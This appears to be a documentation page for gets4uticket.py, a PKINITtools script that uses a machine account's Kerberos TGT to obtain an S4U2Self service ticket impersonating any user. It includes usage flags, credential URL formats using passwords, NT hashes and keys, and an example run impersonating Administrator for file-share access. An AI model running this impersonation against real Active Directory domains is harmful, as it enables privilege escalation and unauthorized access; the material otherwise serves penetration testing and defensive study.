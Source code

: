 ```yaml
---
title : "gets4uticket.py"
# pre : ' '
description : "Gets an S4U2self ticket impersonating given user."
date : 2023-12-03T06:11:51+01:00
# hidden : true
# draft : true
weight : 20
# tags : ['']
---
```


---

Gets an S4U2self ticket impersonating given user.

Uses Kerberos S4U2Self to request a service ticket that is valid on the host for which you've obtained a certificate. This ticket can then be used to interact with the original host. This only requires a TGT for the machine account of this host. This TGT should be in a ccache file that you specify in the `kerberos_connection_url`. The only accepted `kerberos_connection_url` for this example is one containing a ccache file, so for example `kerberos+ccache://domain.local\\victimhostname\$:victimhostname.ccache@kdchostname.domain.local`. The SPN should be a service name on the host you are impersonating, you can't use this for delegation attacks (since it does not implement S4U2Proxy, there are plenty of tools already for that).

## Installation

Install [PKINITtools]({{< ref "pkinittools" >}}).

## Usage

```plain
gets4uticket.py [-h] [-v] kerberos_connection_url spn targetuser ccache
```

## Flags

```plain
positional arguments:
  kerberos_connection_url
                        the kerberos target string in the following format kerberos+ccache://domain\user:file.ccache@<domaincontroller-ip>
  spn                   the service principal in format <service>/<server-hostname>@<domain> Example: cifs/fileserver.test.corp@TEST.corp for a TGS ticket to be used for file access on server "fileserver". IMPORTANT:
                        SERVER'S HOSTNAME MUST BE USED, NOT IP!!!
  targetuser
  ccache                ccache file to store the TGT ticket in

options:
  -h, --help            show this help message and exit
  -v, --verbose

==== Extra Help ====
   kerberos connection url secret types: 
   - Plaintext: "pw" or "pass" or "password"
   - NT hash: "nt"
   - RC4 key: "rc4"
   - AES128/256 key: "aes"
   - CCACHE file: "ccache"
   - SSPI: "sspi"
   
   Example:
   - Plaintext + SOCKS5 proxy:
      kerberos+password://domain\user:SecretPassword@127.0.0.1/proxytype=socks5&proxyhost=127.0.0.1&proxyport=1080
   - Plaintext:
      kerberos+password://domain\user:SecretPassword@127.0.0.1
      kerberos+pw://domain\user:SecretPassword@127.0.0.1
      kerberos+pass://domain\user:SecretPassword@127.0.0.1
   - NT hash:
      kerberos+nt://domain\user:921a7fece11f4d8c72432e41e40d0372@127.0.0.1
   - SSPI:
      TEST/user/sspi:@192.168.1.1
   - RC4 key:
      kerberos+rc4://domain\user:921a7fece11f4d8c72432e41e40d0372@127.0.0.1
   - AES key:
      kerberos+aes://domain\user:921a7fece11f4d8c72432e41e40d0372@127.0.0.1
   - CCACHE file:
      kerberos+ccache://domain\user:creds.ccache@127.0.0.1
   - KEYTAB file:
      kerberos+keytab://domain\user:creds.keytab@127.0.0.1
   - PFX file:
      kerberos+pfx://TEST.corp\Administrator:admin@10.10.10.2/?certdata=test.pfx
   - PFX string (b64):
      kerberos+pfxstr://TEST.corp\Administrator:admin@10.10.10.2/?certdata=BASE64DATA
   - No auth (preauth not req):
      kerberos+none://TEST.corp\asrepuser@10.10.10.2/
```

## Examples

```plain
(PKINITtools) user@localhost:~/PKINITtools$ python gets4uticket.py kerberos+ccache://testsegment.local\\s2019dc\$:s2019dc.ccache@s2016dc.testsegment.local cifs/s2019dc.testsegment.local@testsegment.local Administrator@testsegment.local out.ccache -v
2021-07-28 10:09:13,687 minikerberos INFO     Trying to get SPN with Administrator@testsegment.local for cifs/s2019dc.testsegment.local@testsegment.local
2021-07-28 10:09:13,695 minikerberos INFO     Success!
2021-07-28 10:09:13,696 minikerberos INFO     Done!
```
